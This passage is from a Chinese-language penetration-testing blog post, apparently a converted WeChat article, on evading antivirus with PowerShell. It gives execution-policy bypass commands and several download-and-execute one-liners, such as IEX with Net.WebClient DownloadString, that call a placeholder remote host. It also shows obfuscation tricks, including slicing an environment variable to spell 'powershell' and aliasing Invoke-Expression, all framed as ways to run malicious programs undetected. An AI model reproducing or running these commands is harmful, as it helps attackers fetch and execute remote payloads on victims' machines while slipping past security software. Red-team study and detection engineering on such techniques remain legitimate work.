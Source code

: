 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WDo04McAf4D9c2cvGlH1aA)

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXu3bXekvbOVFvAicpfFJwIOcQOuakZ6jTmyNoeraLFgI4cibKrDRiaPAljUry4dy4e2zK8lUMyKfkGg/640?wx_fmt=png)前言

在之前发布的一篇 渗透技巧之 Powershell 实战思路中，学习了 powershell 在对抗 Anti-Virus 的方便和强大。团队免杀系列又有了远控免杀从入门到实践 (6)- 代码篇 - Powershell 更是拓宽了自己的认知。这里继续学习 powershell 在对抗 Anti-Virus 的骚姿势。

绕过执行策略

powershell 可以通过绕过执行策略来执行恶意程序。  
而从文件是否落地可以简单分为落地的 bypass、不落地的 bypass。  
以落地为例

```
powershell -ExecutionPolicy bypass -File  a.ps1
```

以不落地为例，如我们熟知的 IEX  

```
powershell  -c "IEX(New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx/a')"
```

从免杀上来说，查杀比较严格的当然是不落地文件的这种方式。  
我们可以将两种方式混用来实现简单的 bypass  
如：  

```
echo Invoke-Expression(new-object net.webclient).downloadstring('http://xxx.xxx.xxx/a') | powershell -
```

如：  

```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('d://a')"
```

简单混淆  

-------

powershell 混淆姿势有很多，如字符串转换、变量转换、编码、压缩等等。根据 powershell 语言的特性来混淆代码，从而绕过 Anti-Virus。

### 处理 powershell

利用 cmd 的混淆以不同的姿势调用 powershell  
如利用 win10 环境变量截取出 powershell

```
%psmodulepath:~24,10%
```

### 处理 IEX  

为 IEX 设置别名

```
powershell set-alias -name cseroad -value Invoke-Expression;cseroad(New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx/a')
```
